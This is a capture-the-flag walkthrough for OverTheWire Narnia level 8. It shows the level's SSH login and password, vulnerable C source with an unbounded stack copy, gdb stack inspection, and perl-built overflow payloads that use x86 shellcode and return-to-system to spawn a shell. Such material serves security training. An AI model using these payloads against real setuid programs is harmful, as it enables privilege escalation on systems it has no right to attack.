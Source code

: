 # Level 8 → Level 9

## Solution
```
ssh narnia8@narnia.labs.overthewire.org -p 2226
```
```
1aBcDgPttG
```
```
cd /narnia ; ls -al
```
```
./narnia8
```

![](0.png)

![](1.png)


Let's look at the code:

```
cat narnia8.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}
```

Well, I tried a few things in this challenge via gdb. These are the things that worked:
* Entering the `argv[2]` parameter as **shellcode** and overriding the return address from `func()` to `main()` which will return to **shellcode**.

* Overriding the return address from `func()` to `main()` to be the `system()` function, and give it the string `"/bin/sh"` as a parameter.
    * The string can be entered as `argv[2]`
    * Or in the first characters of `argv[1]`

The second way is more elegant (in particular inserting the string into `system()` in `argv[1]`) and therefore I will explain it:



Let's look at the stack just after memset:
```
gdb ./narnia8
```
```
disas func
```

![](2.png)

```
b *0x080491a2
```
```
r $(perl -e 'print "A"x19')
```
```
x/40wx $sp
```

![](3.png)

* Yellow - `bok`
* Red - `blah`, contain the address of `argv[0]`
* Blue - `$bp` register
* Green - Return falue from the `func` to the `main`.



```
gdb --args ./narnia8 $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
```
r $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```

```
r $(perl -e 'print "A"x20 . "\xf5\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\x1e\xd7\xff\xff"') /bin/sh
```

```
r $(perl -e 'print "/bin/sh;" . "A"x12 . "\xfd\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\xfd\xd6\xff\xff"')
```

```
gdb --args ./narnia8 $(perl -e 'print "/bin/sh;" . "A"x12 . "\xfd\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\xfd\xd6\xff\xff"')
```

## Password for the next level:
```

```
